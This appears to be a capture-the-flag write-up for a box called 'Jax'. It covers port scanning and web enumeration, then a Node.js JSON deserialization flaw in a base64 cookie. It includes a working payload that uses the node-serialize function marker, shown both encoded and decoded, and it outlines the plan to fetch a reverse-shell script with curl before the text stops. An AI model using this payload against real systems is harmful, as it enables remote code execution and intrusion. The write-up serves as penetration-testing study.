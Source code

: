 # Jax sucks alot.............

### Jax sucks alot.............
Nmap shows ports 22 and 80 open. Port 80 is just one page, I enumerated with nikto, ffuf etc.. and there's only this page I need to exploit: <br />
![image](https://github.com/user-attachments/assets/48558b18-0e5a-485a-ae59-4e5f5a746ffb)<br />
If I capture a response and a request with burpsuite, I can see that the response contains a `set-cookie` header: <br />
![image](https://github.com/user-attachments/assets/328eb1dd-6ae1-4612-b951-f5f90b56e6e8)<br />
If I base64 decode the string, I get: `{"email":"test?email=test"}`. <br />
After testing a bit, this is a nodejs json deserialization vulnerability. To test if it works,
I'm going to send the following payload `eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpeyByZXR1cm4gJ0RFU0VSSUFMSVpFJzsgfSgpIn0=` as cookie value. This is the base64 encoded string of `{"email":"_$$ND_FUNC$$_function(){ return 'DESERIALIZE'; }()"}`:<br />
![image](https://github.com/user-attachments/assets/0e7010a3-d667-4755-9210-1136bf921400)<br />
This confirms that the code gets executed. To spawn a reverse shell, I'm going to create a `shell.sh` file locally, and then open a python webserver, then use `curl` as payload command. 
